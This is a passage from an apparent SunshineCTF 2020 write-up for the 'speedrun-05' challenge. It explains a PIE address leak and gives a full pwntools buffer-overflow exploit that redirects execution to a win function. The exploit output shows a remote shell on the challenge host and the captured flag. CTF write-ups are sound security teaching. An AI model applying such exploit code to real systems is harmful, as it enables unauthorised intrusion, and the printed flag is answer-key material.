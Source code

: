 `vuln` leaks the address of `main`, now we have the base process address and
can use that to write `win` to `local_10`.  This is not unlike the previous
challenge.

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_05')

if not args.REMOTE:  
   p = process(binary.path)  
else:  
   p = remote('chal.2020.sunshinectf.org', 30005)

p.sendlineafter('Race, life\'s greatest.\n','foobar')

p.recvuntil('Yes I\'m going to win: ')  
_ = p.recvline().strip()  
main = int(_,16)  
binary.address = main - binary.sym.main  
log.info('binary.address: ' + hex(binary.address))

payload  = b''  
payload += 56 * b'A'  
payload += p64(binary.sym.win)

p.sendline(payload)  
p.interactive()  
```

> Again, that `56` was kinda sloppy (c&p job) of me, it should have been
> `(0x48 - 0x10)`.  Yes, still `56`, but with some meaning.

Output:

```bash  
# ./exploit_05.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-05/chall_05'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to chal.2020.sunshinectf.org on port 30005: Done  
[*] binary.address: 0x56475616e000  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_05) gid=1000(chall_05) groups=1000(chall_05)  
$ ls -l  
total 16  
-rwxr-xr-x 1 root root     8536 Nov  7 07:49 chall_05  
-rw-r----- 1 root chall_05   35 Nov  7 08:51 flag.txt  
$ cat flag.txt  
sun{chapter-four-9ca97769b74345b1}  
```
